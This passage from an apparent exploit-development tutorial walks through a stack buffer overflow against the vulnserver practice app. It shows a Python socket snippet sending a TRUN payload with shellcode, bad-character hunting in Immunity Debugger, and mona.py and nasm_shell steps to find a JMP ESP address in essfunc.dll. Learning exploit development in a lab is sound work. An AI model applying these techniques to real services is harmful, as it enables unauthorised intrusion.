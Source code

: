 try:  
    s=socket(socket.AF_NET,socket.SOCK_STREAM)  
    s.connect(('192.168.x.x',9999))  
    s.send(('TRUN /.:/ ' + shellcode))  
    s.close()  
except:  
    print “Error connecting to server”  
    sys.exit()   
{% endhighlight %}<br>
Save it<br>
Run it with Immuity attached to vulnserver<br>
./2.py<br>
In immunity, r-click the EIP, click Follow in Dump<br>
Look at the hex dump<br>
<img src="https://i.imgur.com/EMJ7p2g.png" alt="imageD"><br>
The last thing sent in badChars is xff, ie. FF and FF is present in EIP dump<br>
We’re looking at what’s missing or out of place from the hexdump, like in this pic<br>
<img src="https://i.imgur.com/Py9XIYk.png" alt="imageE"><br>
The badChars is just all Hex listed from 01 to FF (00 is always bad, no point in confirming).  Which ever chars are missing (replaced with some other weird hex char) is a bad character.</p>
<p class="has-line-data" data-line-start="215" data-line-end="217">Write down the bad characters.<br>
They will ALL HAVE TO GO into shellcode that we generate later.</p>
<h2 class="code-line" data-line-start=218 data-line-end=219 ><a id="Finding_the_Right_Module_218"></a>Finding the Right Module</h2>
<p class="has-line-data" data-line-start="219" data-line-end="221">There’s a tool called <a href="http://Mona.py">Mona.py</a> that works with immunity (<a href="https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/">https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/</a>)<br>
Follow the instructions in the above jump to install</p>
<p class="has-line-data" data-line-start="222" data-line-end="229">After installing, start vulnserver again, attach Immunity again<br>
In immunity, at the very bottom text bar, type<br>
!mona modules<br>
and hit enter<br>
<img src="https://i.imgur.com/e1nkRgD.png" alt="imageF"><br>
A new pane will pop up with a table of Module info.<br>
We’re looking for something that’s:</p>
<ol>
<li class="has-line-data" data-line-start="229" data-line-end="230">Attached to vulnserver and</li>
<li class="has-line-data" data-line-start="230" data-line-end="235">Is all Falses.<br>
False means not protected, True means protected.<br>
See pic<br>
<img src="https://i.imgur.com/F4ZIfU9.png" alt="imageG"></li>
</ol>
<p class="has-line-data" data-line-start="235" data-line-end="245">Now we need to figure out what op code JMP ESP is, so we can use it to point the BOF to a larger shell code space.<br>
In terminal,<br>
locate nasm_shell<br>
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb<br>
nasm &gt; JMP ESP<br>
Output:<br>
00000000    FFE4   jmp esp<br>
So the opcode equivalent to a jmp esp code is FFE4<br>
exit<br>
Go back to immunity</p>
<p class="has-line-data" data-line-start="246" data-line-end="253">in bottom, type<br>
!mona find -s “\xff\xe4”-m essfunc.dll<br>
\xff\xe4 = FFE4 (jmp esp)<br>
-s = search<br>
-m = module<br>
essfunc.dll = the unprotected module found from !mona modules<br>